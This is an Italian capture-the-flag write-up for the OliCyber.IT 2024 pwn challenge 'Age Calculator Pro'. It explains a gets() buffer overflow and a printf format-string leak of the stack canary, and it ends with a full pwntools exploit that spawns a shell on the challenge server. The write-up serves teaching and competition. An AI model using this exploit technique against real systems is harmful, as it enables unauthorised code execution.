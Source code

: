 # OliCyber.IT 2024 - Selezione territoriale

## [pwn] Age Calculator Pro (35 risoluzioni)

Non ho più voglia di ricordarmi quanti anni ho...

`nc agecalculatorpro.challs.olicyber.it 38103`

Autore: Giulia Martino <@Giulia>

## Panoramica

La challenge consiste in un binario molto semplice. Per prima cosa, il programma chiama la funzione `init`, utilizzata per le impostazioni di buffering e per stampare un grosso banner. Dopodichè, chiede all'utente di fornire un nome e lo stampa in output, chiedendo poi all'utente il suo anno di nascita. Converte l'anno di nascita in un intero e, infine, stampa l'età dell'utente. Ispezionando il binario (per esempio con Ghidra), è possibile notare una funzione `win`, che lancia una shell per noi. Il binario non è PIE ma il canary è abilitato.

```console
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Soluzione

La prima cosa da notare in questa challenge è l'utilizzo della funzione `gets` per prendere input dall'utente. Da `man gets`:

```text
DESCRIPTION
       Never use this function.
```

C'è una ragione per cui il manuale Linux ci suggerisce di non usare `gets`: questa funzione legge una stringa da standard input, ma si ferma **soltanto** quando trova un `\n` o `EOF`, indipendentemente da quanto sia il buffer dentro al quale sta leggendo. Non esiste modo di chiedere a `gets` di fermarsi dopo aver letto un certo numero di caratteri; questo può provocare buffer overflows quando l'input alla funzione `gets` è più grande del buffer utilizzato per memorizzarlo.

La funzione `gets` è utilizzata due volte per leggere da `stdin` in un buffer sullo stack. Considerata la presenza di buffer overflow, si può subito pensare a sovrascrivere l'indirizzo di ritorno nello stack con l'indirizzo della funzione `win`. Il binario non è PIE, quindi non abbiamo bisogno di un leak, e possiamo semplicemente incollare l'indirizzo di `win` nel nostro exploit.

C'è un problema da risolvere però: il binario ha la protezione canary abilitata. Se effettuiamo un overflow oltre al buffer sullo stack, con dei byte casuali fino ad arrivare all'indirizzo di ritorno, finiremo per sovrascrivere anche il canary e il nostro programma terminerà a causa di `stack smashing detected`. Abbiamo bisogno di un leak del canary, in modo da sovrascriverlo con il suo stesso valore, impedendo che la sovrascrittura venga identificata e che il programma termini.

Analizzando il binario ancora, possiamo notare l'utilizzo vulnerabile della funzione `printf`:

```c
printf(buffer);
```

Dato che `buffer` è un array controllato, abbiamo una format string vulnerability. Inserendo degli specificatori nel buffer controllato, la funzione `printf` cercherà i suoi parametri sullo stack (anche se parametri non ce ne sono), fornendoci un modo per leggere blocchi dallo stack.

Il modo più semplice è probabilmente inserire diversi specificatori `%p` fino a che non si ottiene effettivamente un canary leak. Il canary è composto da una sequenza di byte casuali lunga 8 byte + un byte nullo, ed è quindi abbastanza semplice capire quali dei leak stampati in output è davvero il canary. Ma è anche possibile utilizzare un debugger per ispezionare lo stack e controllare che l'associazione sia corretta.

![printf leaks](attachments/printf_leaks.png)

Nell'esempio sopra, il canary è il 17esimo valore: `0xf2e23800574f2c00`.  

Infine, abbiamo bisogno di sapere quanto lontano sia il canary dall'inizio del nostro input, così che possiamo allineare tutti i blocchi sullo stack correttamente. Un possibile modo consiste nell'inserire una stringa riconoscibile all'interno del buffer di input (per esempio `AAAAAAAA`), poi analizzare lo stack con un debugger e calcolare l'offset del canary. Nello screenshot sotto, un breakpoint è stato impostato appena dopo la seconda chiamata alla funzione `gets` nella funzione `main`; gli strumenti utilizzati sono `gdb` + [`pwndbg`](https://github.com/pwndbg/pwndbg).

![stack layout](attachments/stack_layout.png)

La linea rosa indica l'inizio del nostro buffer di input; la linea blu indica il canary; la linea verde indica l'indirizzo di ritorno della funzione `main`. Possiamo calcolare la distanza fra l'inizio dell'input e il canary semplicemente sottraendo i loro indirizzi:

```console
In [1]: hex(0x7fffffffdd88 - 0x7fffffffdd40)
Out[1]: '0x48'
```

E' importante notare inoltre che c'è un blocco sullo stack, fra il canary e l'indirizzo di ritorno. Possiamo quindi costruire il payload finale concatenando`0x48` bytes di padding + canary leak + `0x8` bytes di padding + indirizzo della funzione `win`.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

HOST = os.environ.get("HOST", "agecalculatorpro.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 38103))

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'build/age_calculator_pro'))

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

'''.format(**locals())

io = start()

format_string = b"%p." * 20
io.sendlineafter(b"What's your name?\n", format_string)
res = io.recvuntil(b"what's your birth year?", drop=True)
canary = int(res.split(b'.')[16], 16)
print(f"[+] canary: {hex(canary)}")

payload = b"A" * 0x48
payload += p64(canary)
payload += p64(0x0)
payload += p64(exe.sym.win)
res = io.sendline(payload)
io.recvuntil(B"years old!\n")
time.sleep(0.5)
io.sendline(b"cat flag")
res = io.clean(0.5)
io.close()
print(res.decode())

```
